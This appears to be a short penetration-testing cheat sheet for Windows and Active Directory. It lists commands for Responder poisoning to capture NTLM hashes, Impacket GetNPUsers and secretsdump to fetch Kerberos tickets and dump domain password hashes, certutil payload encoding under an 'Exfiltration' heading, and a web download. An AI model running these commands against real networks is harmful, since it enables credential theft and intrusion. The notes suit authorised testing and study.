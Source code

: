 # Responder
> Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.  
> Basicaly a rogue everything use for exemple to steal NLTLM Hash, usernames...  [source](https://github.com/lgandx/Responder)

Server (attacker) :
```bash
python Responder.py -I interface
```

Client (victim):
```powershell
gci \\ip\test\test
```

### GetNPUsers
> [GetNPUsers.py](https://raw.githubusercontent.com/SecureAuthCorp/impacket/impacket_0_10_0/examples/GetNPUsers.py) will attempt to list and get TGTs for those users that have the property ‘Do not require Kerberos preauthentication’ set.

```
python GetNPUsers.py -usersfile USER_LIST_FILE -no-pass -dc-ip IP DOMAIN/
```

### secretsdump
> [secretsdump](https://raw.githubusercontent.com/SecureAuthCorp/impacket/impacket_0_10_0/examples/secretsdump.py) dumping Active Directory Password Hashes.

```
python secretsdump.py -just-dc-ntlm DOMAIN/USER@DOMAIN_CONTROLLER
python secretsdump.py DOMAIN/USER:PASSWORD@IP
```

# Exfiltration
### Certificate
```powershell
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

### Download file
```powershell
Invoke-WebRequest -Uri http://example.com -OutFile file.out
```

# DMP File
### Extract
```bash
Foremost file.dmp
```
